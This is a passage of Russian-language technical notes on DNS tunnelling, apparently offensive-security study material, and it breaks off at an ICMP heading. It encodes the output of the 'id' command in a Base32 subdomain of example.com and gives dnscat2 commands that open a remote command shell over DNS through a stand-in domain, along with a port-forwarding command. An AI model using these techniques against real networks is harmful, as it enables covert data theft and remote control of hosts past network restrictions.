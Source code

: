 Одним из способов реализации DNS-туннелирования является **использование поддоменов.**

> **_Пример:_**
> 
> `OVUWIPJRGAYDCKDSMVTXK3DBOIUSAZ3JMQ6TSOJZFBZGKZ3VNRQXEKI.example.com`
> 
> В имени поддомена закодирована строка: `uid=1001(regular) gid=999(regular)`

Другим способом реализации DNS-туннелирования является использование поля "OPCODE_"_ в запросах DNS.  
Поле _"опкод"_ обычно используется для указания типа запроса (например, запрос на получение записи или запрос на обновление записи), но может также использоваться для передачи полезной нагрузки, включая команды или файлы.  
  
Максимальная длина “OPCODE” равна 4 битам (0-16).

**Особые условия DNS-туннелирования**

- Максимум 253 символа в домене 
- Максимум 63 символа на поддомен
- Нечувствительность к регистру (поэтому мы используем кодировку Base32)
- TXT-запрос для получения максимального количества символов в ответе

**Особенности использования DNS-туннеля: рекурсивные запросы**  
  
Такие запросы позволяют не использовать прямое соединение с сервером управления или прокси, чтобы получать доступ. Это поведение может быть очень полезно в изолированном периметре или сети с ограничениями к соединениям между узлами.

![[Pasted image 20240409145148.png]]

**Утилиты для DNS-туннелирования**

- _DNSCAT2_ — инструмент, предназначенный для создания зашифрованного командно-контрольного канала (C&C) через протокол DNS, который является эффективным туннелем практически из любой сети
- _Iodine_ — программное обеспечение, позволяющее туннелировать данные IPv4 через сервер DNS сервер: это может быть полезно в различных ситуациях, когда доступ в интернет исключен, но DNS-запросы разрешены

> **_Пример работы с DNSCAT2:_**
> 
> Запуск сервера:  
> `./dnscat2.rb our-domain-server.org`  
> Запуск клиента:  
> `./dnscat2 our-domain-server.org`  
>   
> При подключении клиента к серверу вы сможете управлять с сервера терминальной оболочкой, исполняющей команды на агенте.

> **_Пример проброса туннелирования трафика через DNS-туннель:_**  
>   
> `listen 4444 10.0.1.3:80` — поднимет на стороне сервера порт 4444, который будет отправлять трафик на узел 10.0.1.3 на порт 80 на стороне агента

### **ICMP-туннелирование**

